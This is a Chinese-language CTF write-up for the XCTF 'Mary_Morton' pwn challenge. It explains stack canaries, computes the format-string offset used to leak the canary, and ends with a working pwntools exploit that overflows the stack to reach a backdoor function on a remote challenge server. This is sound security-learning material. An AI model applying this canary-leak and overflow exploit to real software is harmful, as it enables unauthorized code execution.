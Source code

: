 ```yaml
---
title: 攻防世界 Mary_Morton 关于canary
description: 攻防世界 Mary_Morton 关于canary-writeup
date: 2021-08-05 15:07:56
categories:
 - PWN
tags:
---
```


# 攻防世界 Mary_Morton 关于canary

由于格式化字符串我总是忘记，而且也没做过关于canary相关的题目，特此做此笔记

首先检查文件：

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628171936266-b915a12e-927b-449c-98f3-fc3ea804e631.png)

开了canary保护，拖进ida看看源码

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628171978999-7b075078-988a-4d16-8358-1704fae30651.png)

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628171999111-3ec8ce6c-285d-4155-bf43-8a6f91077114.png)

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628172011374-6555fe3f-a22b-411b-acba-4944675a8593.png)

其实就是两个漏洞，一个格式化字符串，一个栈溢出，这里可以考虑通过格式化字符串去泄露canary的值，然后再用栈溢出覆盖回去，本题提供了一个后门函数

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628172100519-aa7828a2-2da1-42c3-8280-37a646d2cd5e.png)

这里复习一下Canary保护，就是在栈里再添加一个变量，赋予随机值，这里看汇编fs:28h，这里好像是fs段寄存器0x28里存放着一个随机的保护值，如果这个变量在执行最后的leave ret的操作之前被修改了，则会调用__stack_chk_fail，直接报错

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628172156469-2d61005b-e384-4698-8153-423966fd967c.png)

那么第一步我们先通过格式化字符串看buf的偏移，这里偏移是6，那么偏移canary的变量v2就可以算了，首先buf是rbp-0x90，v2是rbp-0x8，那么buf和v2的之差就是0x88，又因为这个是64程序，一个单位占8字节，那么0x88除以8等于17，那么格式化字符串距离v2的偏移就是17+6=23个单位

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628173534920-ceb610ef-8785-49e1-9d57-84e5970e5c85.png)

那么就有

```python
from pwn import *

context.log_level = 'debug'

# p = process('./bin')
p = remote('111.200.241.244',55824)

backdoor = 0x00000000004008DA

payload = '%23$p'
p.sendlineafter('3. Exit the battle ','2')
p.sendline(payload)
p.recvuntil('0x')
canary = int(p.recv(16),16)
print(canary)

p.sendlineafter('3. Exit the battle ','1')
payload = 'A' * 0x88 + p64(canary) + p64(0xdeadbeef) + p64(backdoor)
p.sendline(payload)
p.interactive()
```